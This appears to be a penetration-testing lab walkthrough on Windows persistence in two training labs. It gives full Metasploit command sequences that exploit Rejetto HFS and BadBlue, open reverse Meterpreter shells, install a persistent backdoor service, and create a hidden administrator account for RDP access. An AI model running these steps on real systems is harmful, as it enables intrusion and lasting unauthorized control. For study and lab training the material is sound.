





# 🔬Windows Persistence

## Lab 1 - Service

> 🔬 [Maintaining Access: Persistence Service](https://attackdefense.com/challengedetails?cid=2140)
>
> - Target IP: `10.2.20.244`
> - **Persistence** via services

```bash
nmap -sV 10.2.20.244
```

```bash
80/tcp    open  http 		 HttpFileServer httpd 2.3
135/tcp   open  msrpc		 Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc 		 Microsoft Windows RPC
49153/tcp open  msrpc 		 Microsoft Windows RPC
49154/tcp open  msrpc 		 Microsoft Windows RPC
49155/tcp open  msrpc 		 Microsoft Windows RPC
49156/tcp open  msrpc 		 Microsoft Windows RPC
```

### Exploitation

```bash
service postgresql start && msfconsole -q
```

```bash
search rejetto
use exploit/windows/http/rejetto_hfs_exec
options
setg RHOSTS 10.2.20.244
set payload windows/x64/meterpreter/reverse_tcp
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x64/windows

getuid
	Server username: WIN-OMCNBKR66MN\Administrator
```

- With the `Administrator` Meterpreter session, privilege escalation is not necessary.

### Persistence

❗ In order to set up persistence, administrative privileges are required.

```bash
background
search platform:windows persistence
use exploit/windows/local/persistence_service
info
# Description:
#   This Module will generate and upload an executable to a remote host, 
#   next will make it a persistent service. It will create a new service 
#   which will start the payload whenever the service is running. Admin 
#   or system privilege is required.
set payload windows/meterpreter/reverse_tcp
set LPORT 4444 # use a different port than the other session
sessions
set SESSION 3
run
```

- Successful maintained access. Once the persistent backdoor is installed, it's going to continue to run (across restarts) as a service and a multi handler listening to a connection will receive a connection from the service.



- Kill all MSF sessions

```bash
exit
# Kill all sessions
sessions -K
sessions
	# No active sessions.
# Close msfconsole
exit 
```

- Regain access to the system

```bash
msfconsole -q

use multi/handler
options
# Set the options as specified for the PERSISTENCE_SERVICE Exploit
set payload windows/meterpreter/reverse_tcp
set LHOST eth1
set LPORT 4444
run
```



------

## Lab 2 - RDP

> 🔬 [Maintaining Access: RDP](https://attackdefense.com/challengedetails?cid=2142)
>
> - Target IP: `10.2.20.249`
> - **Persistence** via RDP and a backdoor user account

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.20.249
setg RHOST 10.2.20.249
workspace -a RDP_persistence
db_nmap -sV 10.2.20.249
```

```bash
80/tcp  open  http          BadBlue httpd 2.7
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?

# RDP 3389 is disabled
```

### Exploitation

```bash
use exploit/windows/http/badblue_passthru
run
```

```bash
sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows


getuid
	Server username: ATTACKDEFENSE\Administrator

# Get a stable Meterpreter session
pgrep explorer
migrate 3132
```

### [Enable RDP & New User](https://www.offsec.com/metasploit-unleashed/enabling-remote-desktop/)

- Use the **`getgui`** Meterpreter command to
  - Enable the `RDP` service
  - Create a new user & hide it from Win Login screen
  - Add it to `Remote Desktop Users` & `Administrators` groups

```bash
run getgui -e -u newuser -p attack_1234321
```

> 📌 New user's credentials are `newuser`:`attack_1234321`



- In a new Terminal TAB

```bash
xfreerdp /u:newuser /p:attack_1234321 /v:10.2.20.249
```



- The cleanup script provided to remove the added account can be run when the attacker is done with the current system

```bash
# In the Meterpreter Session
run multi_console_command -r /root/.msf4/logs/scripts/getgui/clean_up__20230429.4245.rc
```



------

